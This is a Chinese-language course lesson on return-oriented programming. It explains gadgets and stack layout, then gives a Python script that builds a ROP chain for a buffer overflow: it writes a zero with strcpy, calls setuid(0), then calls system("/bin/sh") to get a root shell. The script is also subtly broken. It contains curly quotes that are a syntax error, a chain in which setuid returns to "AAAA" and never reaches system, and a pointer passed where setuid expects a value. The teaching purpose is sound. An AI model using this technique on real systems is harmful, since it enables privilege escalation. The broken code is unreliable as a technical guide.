


# 008：面向返回编程

在本节课中，我们将要学习一种更高级的漏洞利用技术——面向返回编程。我们将探讨如何在不注入可执行代码的情况下，通过巧妙地组合程序中已有的代码片段来绕过安全防护，最终实现权限提升。

## 课程概述

上一节我们介绍了如何利用缓冲区溢出来调用 `system` 函数。然而，我们发现直接调用 `system("/bin/sh")` 并不能获得 root 权限，因为 shell 会丢弃额外的权限。本节中，我们来看看如何通过链式调用多个函数来解决这个问题，并深入理解面向返回编程的核心思想。

## 回顾与问题分析

我们之前成功利用缓冲区溢出，将程序控制流重定向到了 `system` 函数，并传递了 `/bin/sh` 作为参数。代码执行流程大致如下：

```c
system("/bin/sh");
```

然而，当 `system` 函数执行时，它会调用 `/bin/sh`，而该 shell 在检测到有效用户 ID 与实际用户 ID 不同时，会丢弃提升的权限。这意味着我们虽然以 root 上下文运行了程序，但最终获得的 shell 并没有 root 权限。

问题的核心在于，我们无法直接注入并执行自定义的机器代码，因为现代系统通常启用了数据执行保护。所有我们能够注入的数据都被标记为不可执行。

## 构建解决方案的思路

既然不能执行自己的代码，我们就需要利用程序中已有的代码片段。一个关键的想法是：我们能否不止调用一个函数，而是按顺序调用多个函数？

例如，我们理想的执行链可能是这样的：
1.  首先调用 `setuid(0)`，将有效用户 ID 设置为 root。
2.  然后调用 `system("/bin/sh")`，启动一个具有 root 权限的 shell。

在栈上，这看起来像是需要连续放置两个函数的返回地址和它们的参数。但是，函数调用后需要返回，而返回地址会“吃掉”栈上的下一个数据。如果我们简单地将两个函数地址和参数堆叠起来，控制流将无法正确传递。

## 引入“Gadget”概念

为了解决上述问题，我们需要一种方法能“跳过”或“消耗掉”栈上作为参数的数据，并让程序继续执行链中的下一个函数。这就是“gadget”的用武之地。

Gadget 是程序中已有的、以 `ret` 指令结尾的一小段指令序列。一个极其有用的 gadget 是 `pop pop ret`。它的工作流程如下：
1.  第一个 `pop` 指令将栈顶的一个值（例如，第一个函数的参数）弹出到某个寄存器（如 `ebx`）。
2.  第二个 `pop` 指令再将下一个值弹出。
3.  最后的 `ret` 指令将栈顶的下一个值作为返回地址弹出并跳转过去。

通过将 `pop pop ret` gadget 的地址放在函数地址之后，我们就可以在函数执行完毕后，利用这个 gadget 清理掉栈上的参数，并跳转到链中的下一个函数地址。

以下是利用 gadget 链式调用的栈布局示例：

```
[ 函数A地址 ] [ 参数A1 ] [ 参数A2 ] [ pop-pop-ret地址 ] [ 函数B地址 ] [ 参数B1 ] ...
```




执行流程为：
1.  返回到`函数A`，它使用`参数A1`和`参数A2`。
2.  `函数A`返回时，跳转到`pop-pop-ret`。
3.  `pop-pop-ret`消耗掉`参数A1`和`参数A2`，然后返回到`函数B`。
4.  `函数B`开始执行，使用接下来的`参数B1`。

通过这种方式，我们可以将任意数量的函数调用链接在一起。理论上，这构成了一个图灵完备的系统，意味着我们可以用它执行任何计算。

## 实战构造ROP链

现在，让我们将理论付诸实践，构建一个实际的ROP攻击链。我们的目标是：`setuid(0)` 后跟 `system("/bin/sh")`。

我们需要找到以下元素的地址：
1.  `setuid` 函数的地址。
2.  `system` 函数的地址。
3.  字符串 `/bin/sh` 的地址（它可能已经存在于程序内存中）。
4.  一个 `pop pop ret` gadget 的地址（用于在 `setuid` 后清理参数）。
5.  内存中一个全零的地址（作为 `setuid(0)` 的参数源）。
6.  我们想要写入零的目标地址（即 `setuid` 参数的位置）。

由于我们需要将 `setuid` 的参数设置为 `0`，但我们的输入中不能直接包含空字节（`\x00`，因为这会终止字符串复制），所以我们需要通过其他方式在内存中构造一个 `0`。我们可以利用 `strcpy` 函数，它从源地址复制字符串到目标地址，直到遇到空字节为止。如果我们让源地址指向一个空字符串（即第一个字节就是 `\x00`），那么 `strcpy` 只会复制一个空字节到目标地址，从而有效地在目标地址写入一个 `0`。

因此，我们的ROP链需要更复杂一些：
1.  使用 `strcpy` gadget 将 `0` 写入 `setuid` 的参数位置。
2.  调用 `setuid`。
3.  调用 `system`。

我们需要为 `strcpy` 准备源地址（指向空字节）和目标地址（参数位置）。同样，我们需要用 `pop pop ret`（或类似的gadget）来为 `strcpy` 传递两个参数。

## 编写漏洞利用程序

以下是一个用 Python 编写的漏洞利用程序框架，它演示了如何构造ROP链的载荷。请注意，实际地址需要根据目标程序和环境进行填充。

```python
#!/usr/bin/env python
import struct

def p(x):
    return struct.pack(‘<I‘, x) # 打包为小端序32位地址

# 缓冲区填充
buf = "B" * 136

# 假设的地址 (需要替换为实际值)
strcpy_addr = 0x08048320    # strcpy@plt 地址
ppr_addr = 0x0804856a       # pop pop ret gadget 地址
zero_addr = 0x0804a000      # 内存中已知包含零的地址
dest_addr = 0xbffffabc      # setuid参数的目标地址（栈地址）
setuid_addr = 0x08048340    # setuid@plt 地址
system_addr = 0x08048360    # system@plt 地址
binsh_addr = 0x0804a024     # 程序中已有的 "/bin/sh" 字符串地址

# 构造ROP链
rop_chain = ""
# 第一步：使用strcpy将0写入dest_addr
rop_chain += p(strcpy_addr)
rop_chain += p(ppr_addr)    # strcpy返回后跳到这里
rop_chain += p(dest_addr)   # 目标地址 (strcpy的第一个参数)
rop_chain += p(zero_addr)   # 源地址 (strcpy的第二个参数)

# 第二步：调用setuid(0)，参数已在dest_addr中
rop_chain += p(setuid_addr)
rop_chain += "AAAA"         # setuid的返回地址（会被覆盖，此处用填充）
rop_chain += p(dest_addr)   # 指向数字0的指针

# 第三步：调用system("/bin/sh")
rop_chain += p(system_addr)
rop_chain += "AAAA"         # system的返回地址
rop_chain += p(binsh_addr)  # 指向"/bin/sh"字符串的指针

# 组合最终载荷
payload = buf + rop_chain
print payload
```


这个脚本会生成一串字节，当它被输入到存在缓冲区溢出漏洞的程序时，就会触发我们设计的ROP链。


## 总结



本节课中我们一起学习了面向返回编程的基本原理。我们了解到，通过精心组合程序中已有的、以 `ret` 结尾的短指令序列，我们可以构建出复杂的执行链，从而在不注入任何新代码的情况下实现任意函数调用和计算。这种方法能有效绕过数据执行保护等安全机制。虽然构造ROP链比简单的缓冲区溢出更复杂，但它代表了现代漏洞利用技术的一个重要方向。在后续课程中，我们还将看到针对ROP的各种防御措施。